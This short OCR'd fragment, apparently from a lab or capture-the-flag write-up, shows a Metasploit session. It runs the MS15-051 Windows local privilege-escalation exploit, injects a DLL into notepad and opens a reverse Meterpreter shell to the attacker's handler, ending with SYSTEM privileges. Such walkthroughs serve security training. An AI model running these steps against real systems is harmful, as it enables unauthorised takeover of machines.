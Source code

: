 
```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_image
set LHOST 10.10.16.8
set SESSION 1
set LPORT 3000
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.16.8:3000 
[*] Launching notepad to host the exploit...
[+] Process 3272 launched.
[*] Reflectively injecting the exploit DLL into 3272...
[*] Injecting exploit into 3272...
[*] Exploit injected. Injecting payload into 3272...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.16.8:3000 -> 10.10.10.15:1032) at 2022-01-08 08:26:39 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
